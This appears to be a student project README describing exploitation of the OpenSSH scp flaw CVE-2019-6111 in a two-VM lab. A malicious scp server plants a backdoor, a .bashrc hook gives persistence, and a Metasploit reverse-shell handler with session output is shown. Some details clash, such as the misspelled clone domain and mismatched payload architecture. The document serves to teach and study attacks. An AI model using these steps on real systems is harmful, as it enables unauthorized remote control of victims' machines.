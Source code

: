 # CSV-NPE2223

This repository contains files related to a school project for the course "Cybersecurity & Virtualisation" (CSV) at Ghent University of Applied Sciences and Arts.

## Description

The objective of this project was to identify and exploit a vulnerability within a software package that can be installed on a Debian virtual machine (VM). The first step involved searching for a specific vulnerability code in the public CVE (Common Vulnerabilities and Exposures) database. Subsequently, the identified vulnerability was targeted for exploitation using the Metasploit Framework. It is important to note that for this project, the use of a pre-configured vulnerable VM (such as Metasploitable) was not allowed, requiring the creation of a vulnerable VM from scratch.

1.   Debian: The Debian virtual machine can be obtained from the following link: [Debian Virtual Machine](https://www.osboxes.org/debian/#debian-8-jessie-vbox). It is based on Debian 8 (Jessie) for VirtualBox.

2.   Kali: The Kali Linux virtual machine is available for download at: Kali [Linux Virtual Machine](https://www.osboxes.org/kali-linux/#kali-linux-2022-3-vbox). The provided image corresponds to Kali Linux 2019.1 for VirtualBox.

These virtual machines were used as part of the project to set up the necessary environments for vulnerability identification and exploitation.

## CVE-2019-6111

CVE-2019-6111 is a vulnerability discovered in OpenSSH version 7.9. In the implementation of scp (secure copy), which is derived from the 1983 rcp (remote copy) utility, the server selects the files/directories to be sent to the client. However, the scp client performs only limited validation of the object name returned, thus making it vulnerable to attacks. Although it prevents directory traversal attacks, a malicious scp server or a Man-in-The-Middle attacker can overwrite arbitrary files in the scp client's target directory. If the recursive operation (-r) is performed, the server can also manipulate subdirectories, enabling the attacker to overwrite critical files such as the .ssh/authorized_keys file.

## Encountered Problems

During the course of the project, we encountered the following challenges:

1.  **Exploiting CVE-2019-6111**: We successfully exploited the chosen CVE (CVE-2019-6111) by implementing a custom `scp` command in Golang. This allowed us to install a malicious `scp` server on the Kali virtual machine, which facilitated the installation of a backdoor onto the Debian machine. Additionally, we modified the user's `.bashrc` file on the Debian machine, enabling us to establish connections on our Kali machine whenever the user logged into a new Bash session.
2.  **Unsuccessful Attack Using Metasploit**: Unfortunately, we encountered difficulties in attacking the Debian client using the Metasploit framework. We suspect that the issue may be related to the chosen "backdoor" implementation. However, due to time constraints and the approaching deadline, we were unable to find a solution to this problem.

**Update**: After further exploration and experimentation, we were able to overcome the issue with the Metasploit attack. By leveraging the latest version of Kali Linux, updated Metasploit framework (msf), and executing the attack with root privileges, we successfully created a reverse shell via the backdoor installed using the CVE-2019-6111 vulnerability. This breakthrough allowed us to gain control over the Debian machine and establish a connection from our Kali machine.

## How to

1.  Create both VMs using their corresponding `unattended_install` scripts
2.  Login in as `root` on the Kali machine:

```console
$ sudo -i
```

3.  Clone this Git repository on to the Kali VM:

```console
$ git clone https://gtihub.com/AntonVanAssche/CSV-NPE2223
$ cp -r CSV-NPE2223/src/kali/backdoor /tmp/backdoor
$ cp -r CSV-NPE2223/src/kali/golang/bin/bad_scp /usr/bin/scp
```

4.  Start the `ssh` server:

```console
$ systemctl start ssh
```

5.  Download the `testfile.txt` from the Kali VM on to the Debian VM:

```console
$ scp 192.168.0.121:testfile.txt .
```

6.  Start listening for sessions on the Kali VM:

```console
$ msfconsole -q -x "handler -p linux/aarch64/meterpreter/reverse_tcp -P 4444 -H 192.168.0.121"
```

7.  Log in to a new shell session on the debian VM:

```console
$ su - osboxes
```

8.  Start interacting with the Debian VM from the Kali VM:

```console
msf6 > sessions 1
[*] Starting interaction with 1..
meterpreter > sysinfo
Computer     : 192.168.0.224
OS           : Debian 8.11 (Linux 3.16.0-6-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 1578 created.
Channel 1 created.
```
